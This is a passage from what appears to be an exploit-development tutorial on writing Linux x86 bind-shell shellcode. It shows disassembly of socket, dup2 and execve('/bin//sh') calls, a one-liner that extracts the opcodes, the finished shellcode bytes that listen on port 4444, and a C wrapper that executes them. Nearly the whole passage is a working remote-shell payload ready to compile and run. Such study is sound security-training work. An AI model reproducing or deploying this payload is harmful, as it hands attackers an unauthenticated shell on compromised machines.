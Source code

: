 ```
 80480aa:	50                   	push   eax
 80480ab:	57                   	push   edi
 80480ac:	89 e1                	mov    ecx,esp
 80480ae:	b0 66                	mov    al,0x66
 80480b0:	43                   	inc    ebx
 80480b1:	43                   	inc    ebx
 80480b2:	cd 80                	int    0x80
 80480b4:	50                   	push   eax
 80480b5:	50                   	push   eax
 80480b6:	57                   	push   edi
 80480b7:	89 e1                	mov    ecx,esp
 80480b9:	b0 66                	mov    al,0x66
 80480bb:	43                   	inc    ebx
 80480bc:	cd 80                	int    0x80
 80480be:	89 c3                	mov    ebx,eax
 80480c0:	31 c9                	xor    ecx,ecx
 80480c2:	b1 02                	mov    cl,0x2

080480c4 <dup>:
 80480c4:	b0 3f                	mov    al,0x3f
 80480c6:	cd 80                	int    0x80
 80480c8:	49                   	dec    ecx
 80480c9:	79 f9                	jns    80480c4 <dup>
 80480cb:	52                   	push   edx
 80480cc:	68 2f 2f 73 68       	push   0x68732f2f
 80480d1:	68 2f 62 69 6e       	push   0x6e69622f
 80480d6:	89 e3                	mov    ebx,esp
 80480d8:	89 d1                	mov    ecx,edx
 80480da:	b0 0b                	mov    al,0xb
 80480dc:	cd 80                	int    0x80
```
NOTE: Originally.. at 0x804809a: "pushw 0x5c11" there WAS two null bytes my first check for this.  It seems I forgot to specify "push word". I ended up going back, fixing it, verifying, and extract bytes to test.

Now, let's extract the bytes to test out the shellcode.
```
objdump -d ./bind_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x52\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x50\x57\x89\xe1\xb0\x66\x43\x43\xcd\x80\x50\x50\x57\x89\xe1\xb0\x66\x43\xcd\x80\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
```
Our shellcode wrapper, with our shellcode included, is:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x52\x66\x68\x11\x5c\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x50\x57\x89\xe1\xb0\x66\x43\x43\xcd\x80\x50\x50\x57\x89\xe1\xb0\x66\x43\xcd\x80\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```